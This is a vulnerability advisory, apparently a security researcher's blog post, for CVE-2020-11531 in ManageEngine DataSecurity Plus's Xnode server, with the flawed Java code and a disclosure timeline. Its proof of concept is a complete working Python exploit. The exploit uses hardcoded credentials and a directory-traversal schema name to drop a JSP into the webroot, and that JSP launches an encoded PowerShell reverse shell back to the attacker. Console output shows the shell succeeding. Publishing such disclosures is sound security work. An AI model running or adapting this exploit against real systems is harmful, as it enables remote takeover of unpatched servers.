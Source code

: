 ```yaml
---
layout: post
title:  "CVE-2020-11531 DataSecurity Plus Xnode Server - Path Traversal Code Execution Vulnerability"
tag: advisory
excerpt_separator: <!--more-->

---
```


ManageEngine DataSecurity Plus's  DataEngine Xnode Server application does not validate the database schema name when handling `DR-SCHEMA-SYNC` request. This allows an authenticated attacker to execute code in the context of DataSecurity Plus application by writing a JSP file in the webroot directory using a directory traversal attack.  
<!--more-->


### **Identifiers**
 - CVE-2020-11531


### **CVSSv3 score**
8.3 (AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:H/A:H)


### **Vendor**
ManageEngine - https://www.manageengine.com/data-security/


### **Product**
ManageEngine DataSecurity Plus is a two-pronged solution for fighting insider threats, preventing data loss, and meeting compliance requirements. It provides realtime monitoring of filesystem there by help in maintaining the file integrity and combating against ransomeware attacks using automated threat response mechanisms. It comes with the features such as  File Server Audting, Data Leak Prevention and Data Risk assessment. 


### **Affected versions**
 - All versions prior to 6.0.1 (6011)


### **Vulnerability summary**
ManageEngine DataSecurity Plus's  DataEngine Xnode Server application does not validate the database schema name when handling `DR-SCHEMA-SYNC` request. This allows an authenticated attacker to execute code in the context of DataSecurity Plus application by writing a JSP file in the webroot directory using a directory traversal attack. 


### **Technical details**
Upon receiving the `DR-SCHEMA-SYNC` request, the application calls the `syncDRSchemas()` function of `DataRepositoryManager` class at line: `109` of `DataRepositoryManager.java` from `dataengine-xnode.jar` package. 

As can be seen at line:`126` of function `syncDRSchemas()`, the function concatenates the name of database schema while generating the filename dynamically and write the values passed in a JSON object to it.

```java
109:  public static JSONObject syncDRSchemas(DataRepositoryActionRequest request) throws Exception {
110:    JSONObject jResponse = new JSONObject();
111:    JSONObject jSchemas = request.drSchemaListObj();
112:    File schemasFolder = ((Path)Environment.XNODE_DR_SCHEMA_DIR.value()).toFile();
113:    schemaMap = new ConcurrentHashMap();
114:    if (!schemasFolder.exists()) {
115:      schemasFolder.mkdirs();
116:    }
117:    if (schemasFolder.isDirectory()) {
118:      File[] schemaFileList = schemasFolder.listFiles();
119:      for (File schemaFile : schemaFileList) {
120:        schemaFile.delete();
121:      }
122:    }
123:    Iterator iterator = jSchemas.keys();
124:    while (iterator.hasNext()) {
125:      String key = (String)iterator.next();
126:      BufferedWriter bw = new BufferedWriter(new OutputStreamWriter(new FileOutputStream(Environment.XNODE_DR_SCHEMA_DIR.value() + File.separator + key)));
127:      bw.write(jSchemas.getJSONObject(key).toString(2));
128:      bw.close();
129:      Object schema = new XNodeDRSchema(key.replace(".json", ""), jSchemas.getJSONObject(key));
130:      schemaMap.put(((DRSchema)schema).getSchemaName(), schema);
131:      LOGGER.info("SYNCHED : DataRepository Schema '" + key + "'");
132:    }
133:    checkFieldWithMultipleDataTypes();
134:    jResponse.put("error_code", 0);
135:    return jResponse;
136:  }
```


### **Proof of concept**
Using the following exploit code, we can observe that by sending a `DR-SCHEMA-SYNC` request to the DataEngine XNode server with specially crafted schema name, one can write files to the webroot directory of DataSecurityPlus application and execute arbitrary JAVA code.

> exploit.py

```python
#!/usr/bin/env python
# Author: Sahil Dhar(@0x401)

import socket
import sys
import requests
import telnetlib
import threading
import os

from time import sleep
from base64 import b64encode
from requests.packages.urllib3 import disable_warnings
from requests.packages.urllib3.exceptions  import InsecureRequestWarning

def reverse_tcp_handler(lport):
    print("[+] Starting reverse handler on port %d" %(lport))
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(("0.0.0.0", lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Got connection from %s" % addr[0])
    t.sock = conn
    print("[+] whoami ?")
    t.write(b"whoami\n")
    t.interact()


def get_bytearray_payload(lhost,lport):
	cmd = "$client = New-Object System.Net.Sockets.TCPClient('"+lhost+"',"+str(lport)+");$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

	r_cmd = ""
	for c in cmd:
		r_cmd += c
		r_cmd += "\x00"

	payload = 'powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc "%s"' %(b64encode(r_cmd.encode('utf-8'))).decode('utf-8')
	
	r = ""
	for i in payload:
		r += str(ord(i))
		r += ", "
	r = r[0:-2]
	return r


def send_payload(rhost, rport, web_port, lhost, lport):
	auth = '{"username":"atom","password":"chegan","request_timeout":10,"action":"session:/authenticate"}'
	shell = '{"action":"dr:/dr_schema_sync","request_id":2, "dr_schema_list":{"../../../../../webapps/fap/poc.jsp":{"a":"<% Runtime.getRuntime().exec(new String(new byte[] {'+get_bytearray_payload(lhost, lport)+'})); %>"}}}'
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((rhost,int(rport)))
	s.send(auth.encode('utf-8'))
	sleep(1)
	s.send(shell.encode('utf-8'))
	print("[+] Triggering the shell...")
	r = requests.get("http://%s:%d/poc.jsp" %(rhost, web_port))

def main():
	help="%s <rhost> <rport> <web_port> <lhost> <lport>" %(os.path.basename(__file__))
	if len(sys.argv) < 6:
		print(help)
		os._exit(1)
	disable_warnings()
	rhost = sys.argv[1]
	rport = int(sys.argv[2])
	web_port = int(sys.argv[3])
	lhost = sys.argv[4]
	lport = int(sys.argv[5])
	th = threading.Thread(target=reverse_tcp_handler, args=(lport,))
	th.start()
	send_payload(rhost, rport, web_port, lhost, lport)



if __name__=="__main__":
	main()

```

```bash
#~ python3 exploit.py 192.168.56.108 29119 8800 192.168.56.1 4444
[+] Starting reverse handler on port 4444
[+] Triggering the shell...
[+] Got connection from 192.168.56.108
[+] whoami ?
windowsx64-pc\windowsx64
PS C:\Program Files (x86)\ManageEngine\DataSecurity Plus\bin>   
```

### **Timeline**

|Date|Status|
|:---|:---|
|04-MAR-2020|Reported to vendor|
|13-MAR-2020|Patch available|
|05-MAY-2020|Public disclosure|